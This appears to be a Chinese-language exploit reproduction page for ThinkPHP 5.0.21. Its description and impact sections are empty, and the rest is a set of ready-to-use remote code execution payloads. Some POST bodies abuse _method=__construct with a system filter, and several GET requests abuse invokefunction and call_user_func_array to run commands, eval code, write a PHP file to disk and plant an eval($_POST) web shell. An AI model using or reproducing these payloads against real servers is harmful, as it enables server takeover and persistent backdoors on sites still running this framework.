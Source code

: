 ```yaml
---
title: "Thinkphp 5.0.21"
id: zhfly3154
---
```


# Thinkphp 5.0.21

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

三、复现过程

> https://www.0-sec.org/?s=index/index

```
POST 
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc 
```

> 写shell

```
POST `_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET

POST ?s=captcha

_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get>` 
```

### get请求

```
http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
```

### get请求

```
http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```

### get请求

```
http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=system("whoami"); 
```

### get请求

```
http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=eval($_POST[ian]); 
```